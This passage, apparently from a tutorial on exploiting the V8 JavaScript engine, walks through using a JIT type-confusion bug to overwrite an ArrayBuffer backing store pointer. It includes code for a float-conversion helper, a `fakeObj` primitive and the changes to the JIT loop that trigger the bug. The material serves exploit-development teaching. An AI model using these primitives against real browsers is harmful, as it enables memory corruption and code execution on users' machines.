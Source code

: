```js
    pValues[p1] = o;
    pValues[p2] = obj;
	...
```

Notice that for our overlapping `p2` object, we set it directly to the passed in `obj`. The reason we do this is because we need to access offset 32 of that specific object, instead of passing the object in as a property.

To properly convert the address or data we are passing in, we will add a new conversion function called `toNumber` and call that against our `newValue` parameter. This function is necessary as we need to convert the address or data that we are passing in, to be that of a float. The reason for this is due to our constructed type confusion and the fact that `p1` expects a float!

```js
BigInt.prototype.toNumber = function toNumber() {
    uint64View[0] = this;
    return floatView[0];
};

function fakeObj(obj, newValue) {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      // Write to Backing Store Pointer via Property x2
      let orig = obj.p${p1}.x2;
      obj.p${p1}.x2 = ${newValue.toNumber()};
      return orig;
    }
  `);

    let pValues = [];
    // x2 Property Overlaps Backing Store Pointer for Array Buffer
    let o = {x1: 13.37, x2: 13.38};
    pValues[p1] = o;
    pValues[p2] = obj;
	...
}
```

Now comes the important part, modifying our JIT loop to trigger the bug and overwrite our backing store pointer. Similar to our previous `fakeObj` loop there are only a few modifications we need to make. 

First of all, take note from above that we set the `p1` property to a newly created object called `o` with two in-line properties. The reason we are doing this is because during our JIT loop we will need to constantly set the 2nd in-line property attribute of `o` to force the JIT compiler to trigger a redundancy elimination on our Map. This will allow us to access the backing store pointer as a float. If we don't do this, then the function will not work!

Second of all, within the JIT loop, we will no longer compare the result value to 13.37. Instead, we will compare it to the value of our second property. In this case, if the loop no longer returns 13.38, it means that we  successfully triggered the bug and overwrote the backing store pointer!
